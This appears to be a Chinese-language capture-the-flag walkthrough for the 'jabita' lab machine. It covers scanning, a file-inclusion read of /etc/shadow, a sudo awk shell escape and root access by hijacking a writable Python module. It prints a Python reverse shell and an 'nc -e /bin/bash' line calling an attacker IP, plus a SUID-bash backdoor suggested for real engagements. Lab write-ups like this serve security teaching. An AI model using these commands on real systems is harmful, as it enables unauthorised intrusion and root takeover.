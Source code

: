 
|   |   |   |
|---|---|---|
|jabita|easy|文件包含利用、shadow爆破、sudo-awk 提权、python库劫持提权、python反弹shell|

# 主机发现
```C
┌──(kali㉿kali)-[~]
└─$ sudo netdiscover -i eth0 -r 192.168.44.139/24
```

# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.147 
```
22,  80

# 目录扫描
```c
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.44.147 -x php,html.txt.png -e
```

```c
http://192.168.44.147/building   
在这个页面随便点个home
发现这个页面可能存在文件包含http://192.168.44.147/building/index.php?page=home.php
初次尝试得到结果
http://192.168.44.147/building/index.php?page=/etc/shadow


jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7::: 
```
# john爆破




# 提权

```c
jack@jabita:~$ sudo -l
    (jaba : jaba) NOPASSWD: /usr/bin/awk 
```

然后去这个网站搜索相关命令getshell，，，awk
[GTFOBins](https://gtfobins.github.io/)

```c
sudo awk 'BEGIN {system("/bin/sh")}'
```

```c
jack@jabita:~$ sudo -u jaba  /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ id
uid=1002(jaba) gid=1002(jaba) groups=1002(jaba)

$ script /dev/null -c bash
jaba@jabita:/home/jack$ sudo -l
    (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py
```
查看这个文件为root 权限，该脚本导入了wild 模块，执行后调用first()方法，输出一个hello。
我们搜索该模块，查看模块内容如下
```c
jaba@jabita:/home/jack$ cat /usr/bin/clean.py 
import wild

wild.first()
jaba@jabita:/home/jack$ ls -all /usr/bin/clean.py 
-rw-r--r-- 1 root root 26 Sep  5  2022 /usr/bin/clean.py
jaba@jabita:/home/jack$ /usr/bin/python3 /usr/bin/clean.py
Hello
jaba@jabita:/home/jack$ find / -type f -name "wild.py" 2>/dev/null
/usr/lib/python3.10/wild.py
jaba@jabita:/home/jack$ cat /usr/lib/python3.10/wild.py
def first():
        print("Hello")
jaba@jabita:/home/jack$ ls -all /usr/lib/python3.10/wild.py
-rw-r--rw- 1 root root 29 Sep  5  2022 /usr/lib/python3.10/wild.py
```

我们对改文件具有修改的权限，因此可以尝试python库劫持进行提取
那么接下来我们可以使用python反弹一个shell,代码如下
```c
import os
def first():
	os.system("python3 -c \"import       os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.1.158',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);\"")

os.system("nc -e /bin/bash 192.168.44.128 9000")
```

实战中，如果机器不出网，我们可以修改该脚本的内容，让它可以使用 SUID 执行 bash。或者直接创建一个root权限的账号。

```c
import os
def first():	
	os.system("chmod u+s /bin/bash")
```